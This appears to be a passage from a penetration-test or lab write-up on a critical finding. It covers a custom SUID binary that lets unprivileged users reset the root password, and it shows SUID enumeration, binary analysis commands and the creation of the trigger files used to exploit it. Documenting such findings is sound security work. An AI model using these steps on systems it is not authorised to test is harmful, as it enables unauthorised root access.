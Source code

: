 ### 4.3 Critical Finding #3: Privilege Escalation via SUID Binary

**CVSS v3.1 Score:** 9.8 (CRITICAL)  
**Vector:** `AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`

#### Description
A custom SUID binary `/usr/bin/reset_root` contained insecure logic that allowed unprivileged users to reset the root password by creating specific temporary files.

#### Technical Analysis

**SUID Discovery:**
```bash
# Comprehensive SUID enumeration
find / -perm -u=s -type f 2>/dev/null | head -20

# Specific binary analysis
ls -la /usr/bin/reset_root
# Output: -rwsr-xr-x 1 root root 16696 Aug 15 10:23 /usr/bin/reset_root

file /usr/bin/reset_root
# Output: ELF 64-bit LSB executable, dynamically linked
```

**Static Analysis:**
```bash
# Extract readable strings
strings /usr/bin/reset_root | grep -E "(tmp|dev|shm)"

# Library dependencies
ldd /usr/bin/reset_root

# Security features analysis
checksec /usr/bin/reset_root
```

**Dynamic Analysis:**
```bash
# System call tracing
strace -f -e trace=file /usr/bin/reset_root 2>&1 | grep -E "(open|access|stat)"

# Library call tracing
ltrace /usr/bin/reset_root
```

#### Exploitation Process

**Required File Creation:**
```bash
# Create expected temporary files
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5  
touch /tmp/kcM0Wewe

# Verify file creation
ls -la /dev/shm/kHgTFI5G /dev/shm/Zw7bV9U5 /tmp/kcM0Wewe
```
